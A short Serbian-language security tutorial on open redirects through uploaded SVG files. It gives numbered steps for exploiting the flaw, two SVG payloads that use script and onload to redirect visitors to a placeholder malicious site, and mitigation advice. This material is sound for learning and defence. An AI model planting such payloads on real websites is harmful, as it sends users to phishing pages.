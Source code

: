 ## Otvoreno preusmeravanje pri otpremanju svg datoteka

### Opis

Otvoreno preusmeravanje je bezbednosni propust koji omogućava napadaču da preusmeri korisnika sa legitimne veb stranice na zlonamernu stranicu. Ovaj propust može biti iskorišćen prilikom otpremanja SVG (Scalable Vector Graphics) datoteka na veb stranicu.

### Kako iskoristiti propust

Da biste iskoristili ovaj propust, sledite sledeće korake:

1. Identifikujte veb stranicu koja omogućava otpremanje SVG datoteka.
2. Otpremite SVG datoteku koja sadrži URL preusmeravanje. Na primer:

```html
<svg xmlns="http://www.w3.org/2000/svg">
  <script>
    window.location.href = "http://zlonamerna-stranica.com";
  </script>
</svg>
```

3. Proverite da li je preusmeravanje uspešno izvršeno tako što ćete posetiti veb stranicu koja je prikazana u SVG datoteci.

### Kako se zaštititi

Da biste se zaštitili od ovog propusta, preporučuje se sledeće:

* Validirajte i filtrirajte unose korisnika kako biste sprečili ubacivanje skripti ili URL preusmeravanja.
* Koristite belu listu ili sigurnosne politike za preusmeravanje, tako da samo određene adrese mogu biti korišćene za preusmeravanje.
* Redovno ažurirajte softver i biblioteke koje se koriste za obradu SVG datoteka kako biste ispravili poznate bezbednosne propuste.

### Dodatne informacije

Otvoreno preusmeravanje je čest propust u veb aplikacijama i može biti iskorišćen za izvođenje različitih napada, uključujući fišing, preusmeravanje na zlonamerne stranice ili krađu korisničkih podataka. Važno je da razvijatelji i administratori veb stranica budu svesni ovog propusta i preduzmu odgovarajuće mere zaštite.

```markup
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```
